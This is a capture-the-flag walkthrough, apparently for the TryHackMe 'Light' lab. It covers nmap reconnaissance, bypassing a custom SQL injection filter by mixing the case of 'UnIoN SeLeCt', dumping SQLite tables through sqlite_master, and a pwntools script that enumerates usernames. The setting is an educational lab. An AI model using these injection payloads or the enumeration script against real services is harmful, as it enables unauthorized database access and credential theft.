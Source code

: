 # **Easy - Welcome to the Light database application!**
https://tryhackme.com/room/lightroom

I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using ``nc 10.10.22.91 1337``
You can use the username smokey in order to get started.

# Reconnaissance
Target: ``10.10.22.91``

We connect with
``nc 10.10.22.91 1337``
and enter username smokey gives us 

```
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```
Only SSH and the custom 1337 service
```
sudo nmap -p- 10.10.73.73
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 05:19 EDT
Nmap scan report for 10.10.73.73
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste

Nmap done: 1 IP address (1 host up) scanned in 422.69 seconds
```

# Findings
- We try some obious admin credentails, no luck.
- We try the username and password with SSH, no luck.
- We hit it with a large username list, we get users like alice although no admin. included the script below.
- We hit with some SQLi and find there is some custom filtering, the most likely entry

```
Please enter your username: ``' or 1=1 --``
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
# Exploiting Findings

Find some weakness in the filtering we remove -- to find it by-passes filter but we get an error, 
```
Please enter your username: ' or 1=1 
Error: unrecognized token: "' LIMIT 30"

Please enter your username: ' or '1'='1' 
Error: unrecognized token: "'1'' LIMIT 30"
```
Ahh get around the sytax error with
```
Please enter your username: ' or '1'='1  
Password: tF8tj2o94WE4LKC
```

Now what SQLtype? more filtering to overcome 
```
Please enter your username: ' UNION SELECT @@version'
Ahh there is a word in there I don't like :( 
```
Union Select Looks to bypass filters, 

```
Please enter your username: SELECT                                                                                                                                                                                                                                     
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: UNION                                                                                                                                                                                                                                      
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: Select                                                                                                                                                                                                                                     
Username not found.                                                                                                                                                                                                                                                    
Please enter your username: Union                                                                                                                                                                                                                                      
Username not found.                                                                                                                                                                                                                                                    
Please enter your username:      
```

back to find SQL type

MySQL
```
Please enter your username: ' Union Select @@version'                                                                                                                                                                                                                  
Error: unrecognized token: "@"  
```

PostgreSQL
```
Please enter your username: ' Union Select version()'                                                                                                                                                                                                                  
Error: no such function: version      
```

SQLite - Bingo we get a hit
```
Please enter your username: ' Union Select sqlite_version()'                                                                                                                                              
Password: 3.31.1  
```

Find the table name
```
Please enter your username: ' UnIoN SeLeCt name FROM sqlite_master WHERE type='table
Password: admintable
```

Find the columns name
```
Please enter your username: ' UnIoN SeLeCt sql FROM sqlite_master WHERE name='admintable
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

What is the admin username?
```
Please enter your username: ' UnIoN SeLeCt username FROM admintable'
Password: ##########
```
What is the password to the username mentioned in question 1?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable where username = '##########
Password: ##########
```

What is the flag?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable'
Password: ##########
```
# Summary 
Nice room to show why custom frameworks for preventing SQLi is a bad idea, took me a bit to long to start with SQLi and was focused on Bruteforcing. Including bruteforcing script below as while it didn't work it's a good showcase for pwntools 


# failed exploration 

## Setting up pwntools for kali 
mkdir /home/kali/pwntools
python3 -m venv /home/kali/pwntools
home/kali/pwntools/bin/pip install pwntools pwntools\nsource /home/kali/pwntools/bin/activate

## bruteforce script
``nano lightbrute.py``

```
from pwn import *
import requests

# Target details
host = "10.10.22.91"
port = 1337
username_url = "https://raw.githubusercontent.com/jeanphorn/wordlist/refs/heads/master/usernames.txt"

# Download the username list
print("[*] Downloading username list...")
try:
    response = requests.get(username_url, timeout=10)
    response.raise_for_status()
    usernames = response.text.splitlines()
    print(f"[+] Loaded {len(usernames)} usernames.")
except requests.RequestException as e:
    print(f"[!] Failed to download usernames: {e}")
    exit(1)

# Start a single session
print(f"[*] Connecting to {host}:{port}...")
conn = remote(host, port, timeout=5)

# Read initial welcome message
welcome_message = conn.recvuntil(b"Please enter your username:").decode().strip()
print(f"[+] Received: {welcome_message}")

# Try each username in the same session
for username in usernames:
    print(f"[*] Trying username: {username}")
    
    conn.sendline(username)  # Send the username
    response = conn.recvuntil(b"Please enter your username:").decode().strip()  # Read the response

    print(f"[+] {username} → {response}")

    if "Username not found." not in response:
        print(f"\n🔥 Possible valid username found: {username} 🔥\n")
        break  # Stop once a valid username is found

# Close connection
conn.close()
print("[*] Username enumeration completed.")

```

``python3 lightbrute.py``










